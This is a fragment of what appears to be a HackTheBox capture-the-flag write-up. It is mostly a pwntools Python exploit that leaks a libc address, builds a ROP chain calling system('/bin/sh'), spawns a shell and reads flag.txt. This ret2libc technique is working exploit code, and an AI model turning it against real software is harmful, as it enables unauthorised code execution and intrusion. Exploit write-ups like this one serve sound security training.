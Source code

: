```python
    p.recvline()
    leak = u64(p.recvline()[:-1].ljust(8, b"\x00"))
    log.info("LEAK: %#x", leak)
    libc.address = leak - libc.sym.puts
    log.info("LIBC BASE %#x", libc.address)

    rop = ROP(libc)
    rop.raw(rop.find_gadget(["ret"]).address)
    rop.call(libc.sym.system, [next(libc.search(b"/bin/sh\x00"))])
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")

    payload = flat({
        19: rop.chain()
        })

    p.sendlineafter(b"> ", payload)
    p.clean()
    p.sendline(b"cat flag.txt")
    flag = p.recvline_contains(b"HTB").decode()
    log.success("Flag: " + flag) if flag else log.critical("Exploit failed")
```

![Got the Flag](./images/control/ss3.png)
